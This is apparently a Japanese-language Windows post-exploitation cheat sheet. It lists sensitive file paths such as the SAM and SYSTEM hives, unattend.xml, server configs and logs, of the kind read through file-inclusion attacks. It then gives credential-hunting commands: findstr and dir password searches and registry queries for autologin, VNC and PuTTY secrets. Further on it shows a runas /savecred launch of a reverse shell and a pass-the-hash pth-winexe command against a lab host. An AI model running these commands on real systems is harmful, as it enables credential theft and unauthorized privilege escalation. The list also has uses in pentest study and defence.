 # 重要ファイル一覧

- `C:/Users/Administrator/NTUser.dat`
- `C:/Documents and Settings/Administrator/NTUser.dat`
- `C:/apache/logs/access.log`
- `C:/apache/logs/error.log`
- `C:/apache/php/php.ini`
- `C:/boot.ini`
- `C:/inetpub/wwwroot/global.asa`
- `C:/MySQL/data/hostname.err`
- `C:/MySQL/data/mysql.err`
- `C:/MySQL/data/mysql.log`
- `C:/MySQL/my.cnf`
- `C:/MySQL/my.ini`
- `C:/php4/php.ini`
- `C:/php5/php.ini`
- `C:/php/php.ini`
- `C:/Program Files/Apache Group/Apache2/conf/httpd.conf`
- `C:/Program Files/Apache Group/Apache/conf/httpd.conf`
- `C:/Program Files/Apache Group/Apache/logs/access.log`
- `C:/Program Files/Apache Group/Apache/logs/error.log`
- `C:/Program Files/FileZilla Server/FileZilla Server.xml`
- `C:/Program Files/MySQL/data/hostname.err`
- `C:/Program Files/MySQL/data/mysql-bin.log`
- `C:/Program Files/MySQL/data/mysql.err`
- `C:/Program Files/MySQL/data/mysql.log`
- `C:/Program Files/MySQL/my.ini`
- `C:/Program Files/MySQL/my.cnf`
- `C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err`
- `C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log`
- `C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err`
- `C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log`
- `C:/Program Files/MySQL/MySQL Server 5.0/my.cnf`
- `C:/Program Files/MySQL/MySQL Server 5.0/my.ini`
- `C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf`
- `C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf`
- `C:/Program Files (x86)/Apache Group/Apache/conf/access.log`
- `C:/Program Files (x86)/Apache Group/Apache/conf/error.log`
- `C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml`
- `C:/Program Files (x86)/xampp/apache/conf/httpd.conf`
- `C:/WINDOWS/php.ini`
- `C:/WINDOWS/Repair/SAM`
- `C:/Windows/repair/system`
- `C:/Windows/repair/software`
- `C:/Windows/repair/security`
- `C:/WINDOWS/System32/drivers/etc/hosts`
- `C:/Windows/win.ini`
- `C:/WINNT/php.ini`
- `C:/WINNT/win.ini`
- `C:/xampp/apache/bin/php.ini`
- `C:/xampp/apache/logs/access.log`
- `C:/xampp/apache/logs/error.log`
- `C:/Windows/Panther/Unattend/Unattended.xml`
- `C:/Windows/Panther/Unattended.xml`
- `C:/Windows/debug/NetSetup.log`
- `C:/Windows/system32/config/AppEvent.Evt`
- `C:/Windows/system32/config/SecEvent.Evt`
- `C:/Windows/system32/config/default.sav`
- `C:/Windows/system32/config/security.sav`
- `C:/Windows/system32/config/software.sav`
- `C:/Windows/system32/config/system.sav`
- `C:/Windows/system32/config/regback/default`
- `C:/Windows/system32/config/regback/sam`
- `C:/Windows/system32/config/regback/security`
- `C:/Windows/system32/config/regback/system`
- `C:/Windows/system32/config/regback/software`
- `C:/Program Files/MySQL/MySQL Server 5.1/my.ini`
- `C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml`
- `C:/Windows/System32/inetsrv/config/applicationHost.config`
- `C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log`
---

## Passwords
### Sensitive files
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
Findstr /si password *.config 
findstr /si pass/pwd *.ini  
dir /s *pass*== *cred*== *vnc*== *.config*inall files  
findstr /spin "password"*.*findstr /spin "password"*.*

### Config Files
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini

### Registory
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

#### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

#### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

#### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

#### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s

### RunAs - Savedcreds
cmdkey /list 
保存されている資格情報を表示し、任意のオプション ユーザーを検索します

runas /savecred /user:admin C:\Temp\reverse.exe
リバースシェルを転送します

### Pass the Hash
#何らかの手段でハッシュを取得する場合は、psexec、smbexecを使用し、別のユーザーとしてシェルを取得します。
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe


